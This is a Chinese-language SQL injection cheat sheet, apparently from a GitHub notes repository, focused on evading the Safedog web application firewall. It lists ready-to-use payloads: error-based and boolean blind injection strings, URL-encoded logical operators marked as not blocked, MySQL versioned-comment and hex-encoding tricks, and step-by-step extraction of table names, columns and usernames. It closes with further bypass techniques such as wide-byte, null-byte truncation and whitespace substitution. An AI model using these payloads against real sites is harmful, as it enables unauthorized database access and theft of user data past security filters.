 # sql注入的语句

```txt
111' or length(SYS_CONTEXT('USERENV', 'CURRENT_USER')) = 5 or 'x' ='y
1%27 and(select 1 FROM(select count(*),concat((select (select concat(md5(1),0x27,0x7e)) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)--


```

## 绕过安全狗

```txt

先判断是否存在注入
1' and 1=1--+      # 拦截
1' or 1=1--+       # 拦截
1' && 1--+         # 拦截
1' || 1--+         # 拦截
xor 1--+
使用url对&&和||编码可以绕过拦截
1' %26%26 True--+      # 不拦截
1' %26%26 false--+     # 不拦截
1' %7c%7c True--+      # 不拦截
1' %7c%7c false--+     # 不拦截

这三个来判断
xor 1--+
1' %26%26 True--+
1' %26%26 false--+


判断数据库的长度：'%26%26 (length(/*!database*/())=1)--+
判断数据库的名称：'%26%26 (ascii(substr((/*!database*/()),1,1))>64)--+
获取用户长度：'%26%26 (length(/*!USER*/())=14)--+  # 绕过
获取版本信息：' %26%26 (ascii(@@version)=53)--+

获取数据库的表数量:
' %26%26 (0<(select count(/*!table_name*/) from information_schema.tables where table_schema=DBname))--+

获取数据库的表名,这个语句拦截出在select xx from,一般出现select xx from都会被拦截，思路可以想上面的获取数量一样，使用一个函数将xx包起来，尝试一下:
' %26%26 (0< ascii((select substr(/*!table_name*/,1,1) from information_schema.tables where table_schema=DBname limit 0,1))) --+    # 不拦截
' %26%26 (0x65 = (select substr(/*!table_name*/,1,1) from information_schema.tables where table_schema=0x7365637572697479 limit 0,1)) --+    # 不拦截

获取数据库的字段
' %26%26 (0< ascii((select substr(/*!column_name*/,2,1) from information_schema.columns where table_schema = 0x7365637572697479 %26%26 table_name = 0x7573657273 LIMIT 1,1)))--+
' %26%26 (0<ascii(substr((select group_concat(/*!column_name*/) from information_schema.columns  where table_schema=0x7365637572697479 %26%26 table_name=0x7573657273),1,1))) --+

获取数据
' %26%26 (0<ascii(substr((SELECT group_concat(/*!username*/) FROM `security`.`users`),1,1))) --+

```

sql注入相同功能的函数

```txt
Sql注入截取字符串常用函数  -- mid,substr,left
SQL注入返回字符串的ascii码 -- ord和ascii

```

绕过思路：

1. 特殊字符使用加密，除了使用URL编码外，还可以使用其他的编码方式进行绕过尝试，例如Unicode编码，Base64编码，Hex编码，ASCII编码等，原理与URL编码类似。
2. 在使用数据库的值时，可以直接用16进制：information_schema.columns  where table_schema=0x7365637572697479 %26%26 table_name=0x7573657273
3. 在mysql中 /*! ....*/ 不是注释，mysql为了保持兼容，它把一些特有的仅在mysql上用的语句放在/*!....*/中，这样这些语句如果在其他数据库中是不会被执行，但在mysql中它会执行
4. 字母大小写转换绕过
5. 双关键字绕过
6. 请求方式差异规则松懈性绕过
7. 异常Method绕过
8. 超大数据包绕过
9. 宽字节绕过：?id=1%df%27and 1=1--+
10. %00截断
11. 空格过滤绕过

```txt
a)   使用空白符替换空格绕过
b)  使用‘+’替换空格绕过
c)   使用注释符/**/替换空格绕过
数据库类型      允许的空白符
SQLite3         0A，0D，0C，09，20
MySQL5          09，0A，0B，0C，0D，A0，20
PosgresSQL      0A，0D，0C，09，20
Oracle 11g      00，0A，0D，0C，09，20
MSSQL           01，02，03，04，05，06，07，08，09，0A，0B，0C，0D，0E，0F，10，11，12，13，14，15，16，17，18，19，1A，1B，1C，1D，1E，1F，20
```